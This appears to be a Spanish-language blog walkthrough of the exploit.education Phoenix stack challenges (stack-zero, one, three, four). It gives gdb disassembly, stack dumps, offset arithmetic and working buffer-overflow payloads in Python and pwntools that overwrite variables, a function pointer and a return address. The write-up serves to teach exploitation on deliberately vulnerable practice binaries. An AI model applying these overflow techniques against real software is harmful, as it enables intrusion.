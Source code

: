 
En este post nos vamos a meter con los retos de "phoenix" de exploit education, a diferencia de protostar, hablamos de 64 bits, el estandar actual.

## Stack-Zero

El stack Zero como reto inicial, no porpone ninguna dificultad, ya que simplemente se trata de desbordar el buffer metiendole demasaida "basura"
al programa.

Para profundizar más en el lenguaje a bajo nivel, bamos a desensamblar este bianrio. Vamo a analizarlo por partes.

```
(gdb) disas main
Dump of assembler code for function main:
  ----------------------------------------------------------------------
   0x00000000004005dd <+0>:     push   rbp
   0x00000000004005de <+1>:     mov    rbp,rsp
   0x00000000004005e1 <+4>:     sub    rsp,0x60   # Preparar una pila de 0x60 de tamaño, desde rsp
   0x00000000004005e5 <+8>:     mov    DWORD PTR [rbp-0x54],edi
   0x00000000004005e8 <+11>:    mov    QWORD PTR [rbp-0x60],rsi
  ----------------------------------------------------------------------
   0x00000000004005ec <+15>:    mov    edi,0x400680 
   0x00000000004005f1 <+20>:    call   0x400440 <puts@plt> 
[ #### (gdb) x/s 0x400680   # Metemos el edi el argumnto de puts, segun calling conventions.    ]
[ 0x400680:       "Welcome to phoenix/stack-zero, brought to you by https://exploit.education"  ]
  ---------------------------------------------------------------------- 
   0x00000000004005f6 <+25>:    mov    DWORD PTR [rbp-0x10],0x0
[ #### (gdb) x/x $rbp-0x10    # O sea aqui tenemos la famosa varaible "changme" que hay que rellenar  ]
[ 0x7fffffffe520: 0x00                                                                                ]
  ---------------------------------------------------------------------- 
   0x00000000004005fd <+32>:    lea    rax,[rbp-0x50]                 
   0x0000000000400601 <+36>:    mov    rdi,rax                        
   0x0000000000400604 <+39>:    call   0x400430 <gets@plt>            
[ #### (gdb) x/s $rbp-0x50    # Con las calling conventions metemos en rdi el argumento de gets, o sea nuestro input.  ]
[ 0x7fffffffe4e0: 'A' <repeats 11 times>                                                                               ]                                   
  ---------------------------------------------------------------------- 
   0x0000000000400609 <+44>:    mov    eax,DWORD PTR [rbp-0x10]
   0x000000000040060c <+47>:    test   eax,eax       # Se ve si eax (changeme = rbp+0x10) ha sido modificado o no
   0x000000000040060e <+49>:    je     0x40061c <main+63>
   0x0000000000400610 <+51>:    mov    edi,0x4006d0      # Por aqui vamos si hemos hecho bien.
   0x0000000000400615 <+56>:    call   0x400440 <puts@plt>
   0x000000000040061a <+61>:    jmp    0x400626 <main+73>
[ #### (gdb) x/s 0x4006d0                                                 ]
[ 0x4006d0:       "Well done, the 'changeme' variable has been changed!"  ]
[ (gdb) x/x $rbp-0x10     # La varaible changme que hay que modificar     ]
[ 0x7fffffffe520: 0x00                                                    ]

  ---------------------------------------------------------------------- 
   0x000000000040061c <+63>:    mov    edi,0x400708    
   0x0000000000400621 <+68>:    call   0x400440 <puts@plt>
[ #### (gdb) x/s 0x400708                                                                    ]
[ 0x400708:       "Uh oh, 'changeme' has not yet been changed. Would you like to try again?" ]
  ----------------------------------------------------------------------  
   0x0000000000400626 <+73>:    mov    edi,0x0
   0x000000000040062b <+78>:    call   0x400450 <exit@plt>
   
(gdb) b *0x000000000040062b
(gdb) run
AAAAAAAAAAA
(gdb) x/40x $rsp
0x7fffffffe4d0: 0xffffe588      0x00007fff      0x00000000      0x00000001
0x7fffffffe4e0: 0x41414141      0x41414141      0x00414141      0x00000000
0x7fffffffe4f0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffe500: 0x00000000      0x00000000      0xffffe588      0x00007fff
0x7fffffffe510: 0x00000001      0x00000000      0xffffe598      0x00007fff
0x7fffffffe520: 0x00000000      0x00000000      0x00000000      0x00000000
```
O sea que tanto analizando el ensamblador como la pila dicen que el input empieza en 0x7fffffffe4e0 y la variable a escribir esta en 0x7fffffffe520
```
(gdb) p/d 0x7fffffffe520 - 0x7fffffffe4e0 
$1 = 64
```
Buffer de 64 bits

```console
[user@phoenix]:$   python -c "print 'A'* 64" | ./stack-zero 
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Uh oh, 'changeme' has not yet been changed. Would you like to try again?
[user@phoenix]:$ python -c "print 'A'* 70" | ./stack-zero 
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```

-----------------------------------------------------------------------------------------

## Stack - One

Aquí hay que sobreescribir la varaible pero con un valor en conreto, lo desensamble como arriba: 
```console
   mov edi,0x400750 ;call 0x4004c0 <puts@plt>
            puts("Welcome to phoenix/stack-one, brought to you by https://exploit.education")

   mov esi,0x4007a0; call  0x4004d0 <errx@plt>
            puts("specify an argument, to be copied into the \"buffer\"")

   lea rax,[rbp-0x50]; mov rdi,rax; call   0x4004a0 <strcpy@plt>
            char buffer (0x50);
            strcpy(buffer, input);   <- [rbp-0x50] 0x7fffffffe460:

   mov eax,DWORD PTR [rbp-0x10]; cmp eax,0x496c5962; jne 0x4006d7 <main+106>
            if buffer !=  0x496c5962: <- [rbp-0x10] 0x7fffffffe4a0
        
   mov edi,0x4007d8; call 0x4004c0 <puts@plt>
            puts("Well done, you have successfully set changeme to the correct value")
                 
   mov edi,0x400820; call   0x4004b0 <printf@plt>
            puts("Getting closer! changeme is currently \"\", we want 0x496c5962\n")
            
        (gdb) p/d 0x7fffffffe4a0 - 0x7fffffffe460 -> 64

[user@phoenix]:$ ./stack-one $(python -c "print 'A'* 64 + '\x62\x59\x6c\x49'") 
        Well done, you have successfully set changeme to the correct value
```
-----------------------------------------------------------------------------------------

## Stack - Three

Aqui hay un buffer de 64 bytes seguido por un puntero de función [Aqui](https://github.com/CUCUxii/Informatica/blob/main/Binarios/Stack.md#sobreescribir-un-puntero-de-instruccion) lo explico con detalle.

```console
[user@phoenix]:$ objdump -d ./stack-three | grep "^0"
...
000000000040069d <complete_level>:
...
```

El aunto es que tanto al ponerlo en oneliner o exploit no da buenos resultados, metiendo una "0xa" donde no debe. 

```console
[user@phoenix]:$ python -c "print 'A' * 64 + '\x9d\x06\x40\x00'" | ./stack-three 
calling function pointer @ 0xa0040069d; Segmentation fault
```
```python
from struct import pack
payload = 'A' * 64
payload += pack("I", 0x40069d)
print(payload)
```

Pero hay otro módulo llamado "pwntools" que está pensado parala explotación de bianrios (entre otras)
```python
from pwn import *
payload = 'A' * 64
payload += p64(0x40069d)
print(payload)
```
```console
[user@phoenix]:$ python /tmp/exploit.py | ./stack-three 
calling function pointer @ 0x40069d; Congratulations, you've finished phoenix/stack-three :-) Well done!
```
-----------------------------------------------------------------------------------------

## Stack - Four

He metido un par de "A" y con el gdb he parado antes de que salga de la funcíon, luego he abierto la pila a ver que hay.
Tambien se ve que el input de "A" empieza justo en rsp (la pila)

```
(gdb) x/40x $rsp
0x7fffffffe490: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe4a0: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe4b0: 0x41414141      0x41414141      0x41414141      0x00004141
0x7fffffffe4c0: 0xf7ffb300      0x00007fff      0xf7db9934      0x00007fff
0x7fffffffe4d0: 0xffffe558      0x00007fff      0x0040068d      0x00000000
0x7fffffffe4e0: 0xffffe500      0x00007fff      0x0040068d      0x00000000   # despues de rbp esta la direccion de la siguiente funcion

(gdb) x/x $rbp
0x7fffffffe4e0: 0xffffe500
(gdb) p/d $rbp - $rsp 
$2 = 80
```

Es decir la direccion de la funcion hay que meterla despues de rbp (a mas de 80 de buffer).
Como estamos en 64 bits, la data es muy larga, por lo que se suele dividir en dos direcciones de memoria, asi que en vez de rbp +4 es +8.
```
(gdb) x/x 0x7fffffffe528
0x7fffffffe528: 0x0040068d
```
```python
from pwn import *
payload = 'A' * 88
payload += p64(0x40061d)
print(payload)
```
```console
[user@phoenix]:$  python /tmp/exploit.py | ./stack-four
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!
```

---------------------------------------------------------------------------------------





















